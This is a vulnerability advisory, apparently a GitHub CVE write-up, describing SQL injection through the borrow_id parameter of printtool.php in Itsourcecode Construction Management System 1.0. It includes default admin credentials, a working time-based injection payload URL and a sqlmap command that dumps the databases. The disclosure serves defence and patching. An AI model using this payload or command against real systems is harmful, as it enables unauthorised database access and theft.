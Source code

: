 # CVE-2024-50972
## Description

A SQL injection vulnerability in printtool.php of Itsourcecode Construction Management System 1.0 allows remote attackers to execute arbitrary SQL commands via the borrow_id parameter.

## Vulnerability Type
SQL Injection

## Vendor of Product
Itsourcecode

## Affected Product Code Base:
https://itsourcecode.com/free-projects/php-project/construction-management-system-project-in-php-with-source-code/ - 1.0

## Affected Component:
The Itsourcecode Construction Management System v1.0 is vulnerable to SQL injection through the borrow_id parameter in the printtool.php page

## Attack Vectors:
1. Set up the application locally, and log in with the admin credentials as admin:admin
2. Navigate to the following URL in your browser:
   http://localhost/monitoring_system/printtool.php?borrow_id=5
3. Inject SQL Payload:
   Modify the borrow_id parameter in the URL to include a time-based SQL injection payload.
   http://localhost/monitoring_system/printtool.php?borrow_id=5'+AND+(SELECT+7254+FROM+(SELECT(SLEEP(20)))rcGT)--+xxQB
4. Observe the Application Response:
   The page should take noticeably longer (20 seconds) to load if the injection is successful, confirming that the borrow_id parameter is vulnerable to SQL injection.
5. Now use the SQLMap tool for further exploitation and dumping databases using the below command:
   sqlmap.py -u http://localhost/monitoring_system/printtool.php?borrow_id=5 --risk 3 --level 3 --cookie="PHPSESSID=your_cookie_here" --dbs --technique=T --dump --no-cast

## Reference:
1. https://itsourcecode.com/free-projects/php-project/construction-management-system-project-in-php-with-source-code/
2. https://owasp.org/www-community/attacks/SQL_Injection
